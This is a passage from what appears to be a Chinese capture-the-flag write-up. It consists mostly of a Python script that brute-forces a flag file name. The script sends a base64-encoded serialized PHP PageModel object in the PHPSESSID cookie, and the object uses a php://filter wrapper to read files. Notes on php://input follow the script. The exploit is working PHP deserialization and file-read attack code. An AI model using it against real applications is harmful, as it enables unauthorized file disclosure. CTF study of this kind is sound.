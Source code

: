     ```shell
    import time
    import base64
    import requests
    import random
    
    
    def random_string(size):
        seed = "1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
        sa = []
        for i in range(size):
            sa.append(random.choice(seed))
        salt = ''.join(sa)
        return salt
    
    
    def buildCookieValue(php_load):
        php_value_raw = 'PHP://filter/read=convert.base64-encode/resource=/flag_{}'.format(php_load)
    
        value_raw = 'O:9:"PageModel":1:{s:4:"file";s:' + str(len(php_value_raw)) + ':"' + php_value_raw+'";}'
        print("cookie_value_raw:{}".format(value_raw))
        value_base64 = str(base64.b64encode(value_raw.encode("ascii")), "utf-8")
        print("cookie_key:{}".format(value_base64))
        return value_base64
    
    
    def buildCookie(key, value):
        return "{}={}".format(key, value)
    
    
    if __name__ == '__main__':
        size_input = int(input("请输入字母数字串的长度："))
        flag_captured = False
        count = 0
        while not flag_captured:
            count += 1
            print('----------------------{}----------------------'.format(count))
            url = "http://ip:port/"
            cookie_value = buildCookieValue(random_string(size_input))
    
            cookie_key = "PHPSESSID"
            cookie = buildCookie(cookie_key, cookie_value)
            cookie_dict = {i.split("=")[0]: i.split("=")[-1] for i in cookie.split("; ")}
            res = requests.get(url, cookies=cookie_dict, timeout=None)
            print("resres.text:{}".format(res.text))
            if len(res.text) > 0:
                flag_captured = True
                print("*************************success******************")
    
    ```

22. 继续尝试php://input

    * php://input支持读取未经处理过的POST数据，但不支持Content-Type="multipart/form-data"

    * Content-Type取值为application/x-www-form-urlencoded时，php会将http Body部分的数据经过URLDecode按照Content-Length的长度截断后放入$_POST数组
